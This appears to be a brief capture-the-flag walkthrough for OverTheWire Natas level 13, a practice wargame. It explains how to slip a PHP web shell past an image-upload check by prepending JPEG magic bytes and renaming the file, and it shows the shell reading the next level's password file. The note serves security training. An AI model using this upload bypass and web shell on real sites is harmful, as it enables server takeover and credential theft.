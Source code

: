[Category:OverTheWire-Natas](/Category:OverTheWire-Natas "wikilink")

Username: natas13 jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY URL:
<http://natas13.natas.labs.overthewire.org>

the php code uses the exif_image type so we just have to add
FF-D8-FF-E0 to the beginning. this is a magic number for files to check
if it contains an image then we do the burpsuite trick to replace the
jpg to php.

<http://natas13.natas.labs.overthewire.org/upload/rwofu4lfmz.php?cmd=cat%20/etc/natas_webpass/natas14>
Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1